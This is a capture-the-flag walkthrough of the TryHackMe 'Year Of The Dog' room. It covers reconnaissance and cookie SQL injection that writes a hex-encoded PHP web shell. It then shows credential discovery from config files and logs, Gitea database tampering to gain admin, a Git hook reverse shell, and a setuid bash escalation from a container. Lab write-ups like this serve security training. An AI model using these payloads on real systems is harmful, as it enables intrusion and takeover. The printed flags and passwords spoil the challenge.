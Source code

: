 > Year Of The Dog

**export IP=10.10.82.57**

# Nmap

sudo nmap -sC -sV -T4 -Pn -p- -vv -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Canis Queue
```

# Nikto

nikto -h http://$IP

```
Nil
```

# Gobuster

sudo gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial -x txt,php,sql,js,bin,tar,zip,cgi

```
/index.php (Status: 200)
/assets (Status: 301)
/config.php (Status: 200)
```

Looking at the cookies we can see that we are given a number acc. to our cookie. When trying to change the cookie value we get an error and is reflected in the number's position. So, it must be SQLi.

Let's try some manual exploitation. 

# POC

Changing the cookie value `d8c7447ceafdbecd8f0b6db20e24f772'` we have an error.

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''d8c7447ceafdbecd8f0b6db20e24f772''' at line 1
```

# Finding the number of columns 

```
Cookie: id=d8c7447ceafdbecd8f0b6db20e24f772' union select 1-- - => Error
Cookie: id=d8c7447ceafdbecd8f0b6db20e24f772' union select 1, 2-- - => We got a hit!!
```

# Enumerating 

1. Version => `Cookie: id=d8c7447ceafdbecd8f0b6db20e24f772' union select 1, @@version-- -` => `5.7.31-0ubuntu0.18.04.1`
2. Current User => `Cookie: id=d8c7447ceafdbecd8f0b6db20e24f772' union select 1, current_user()-- -` => `web@localhost`
3. Current Database => `Cookie: id=d8c7447ceafdbecd8f0b6db20e24f772' union select 1, database()-- -` => `webapp`
4. Table Name => `Cookie: id=d8c7447ceafdbecd8f0b6db20e24f772' union select 1, table_name from information_schema.tables-- -` => `queue`

Looks like we can output files to webroot. Let's exploit this!!

## Shell

`cookie id = d8c7447ceafdbecd8f0b6db20e24f772' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -`

Here we output a file in location of /var/www/html and in MySQL the lines can be terminated by even hex. So, it's a hex converted shell. 

`cat shell.php | xxd -ps -c 200 | tr -d '\n'`

We got a shell!

And looking at `/var/www/html/config.php` we got some creds. for mysql maybe `web`:`Cda3RsDJga`. 

We can't gather any in mysql so let's move on to /home. We got an user dylan. In his home dir. we can find a ASCII text file and it looks like a log and looking it through we can see that he mistyped hos username and password at the same time.

```
Failed password for invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624 ssh2
``` 

So, his creds. must be `dylan`:`Labr4d0rs4L1f3`. We can either SSH as dylan or just su as dylan.

# user.txt

```
THM{OTE3MTQyNTM5NzRiN2VjNTQyYWM2M2Ji}
```

After running some enumeration scripts we come across Gitea and port 3000.

ss -tulwn

```
tcp    LISTEN   0        128                127.0.0.1:3000             0.0.0.0:* 
```

# 2 methods

1. Let's put a socat static binary there and try to redirect the traffic to our local system.

./socat tcp-l:8080,fork,reuseaddr tcp:127.0.0.1:3000 &

Or 

2. ssh -L 3000:localhost:3000 dylan@$IP

I followed step 1. And navigating to `http://$IP:8080` we got a webpage. We can sign-in as dylan but he has 2FA enabled. So moving to the shell.

Navigating to `/gitea` directory we can find that we have gitea.db but we don't have sqlite3.

locate sqlite => this shows that python3 has it.

Let's create a test account in gitea and now download it to our machine so that we can have our details in it too!

scp dylan@$IP:/gitea/gitea/gitea.db gitea.db

And opening it in sqlite3 we can see that we have a table `two factor` in db.And we had 2FA for dylan account too. Let's delete this table using python3 in victim machine and try to bypass this!

```
>>> import sqlite3
>>> conn=sqlite3.connect("gitea.db")
>>> conn.execute("delete from two_factor")
<sqlite3.Cursor object at 0x7f0f95b64d50>
>>> conn.close()
```

Uuh! Didn' work. Looking at other columns we can see that we have a column is_admin adn we have is_admin as 0 adn admin has it as 1. Let's update it in our local machine and overwrite it with our own in the victim machine.

select lower_name, is_admin from user;

```
dylan|1
test|0
```

update user set is_admin=1 where lower_name="test";

We have uploaded our own db and overwritten it.

scp gitea.db dylan@$IP:/gitea/gitea/gitea.db

Now we have our own account as admin. And let's create a repository named `test` and let's initiate with README.md. So now we can see something in Settings as GitHooks. They are scripts executed when a push happens. It's a simple bash let's put a one-line rev-shell in the EOF. And `Update Hook`. 

## Steps

```
git clone http://localhost:3000/test/test_repo && cd test_repo
echo "test" >> README.md
git add README.md
git commit -m "Exploit"
git push
```

And listening in netcat we got our shell!! But we are in a container as `git` user. Which means whatever we create it'll be dylan's so we have to elevate our privileges and create a malicious file. First let's privesc as root in the container!!

```
sudo -l
User git may run the following commands on 42040a8f97fc:
    (ALL) NOPASSWD: ALL
sudo su root
```

We have root priv in container now! Now we have to create a malicious file in location similar to the container and dylan's SSH session. In Dylan's home `/gitea/gitea` and in container `/data/gitea` the file structure is similar. 

# Steps to Escalate as root

## Dylan's home

Move to /bin directory and check your ip too then,

1. python3 -m http.server 8000

## Conatiner

wget http://$IP:8000/bash -O /data/bash
chmod 4755 /data/bash

And finally now move to dylan's home and run `./bash -p`. And we are root!

# root.txt

```
THM{MzlhNGY5YWM0ZTU5ZGQ0OGI0YTc0OWRh}
```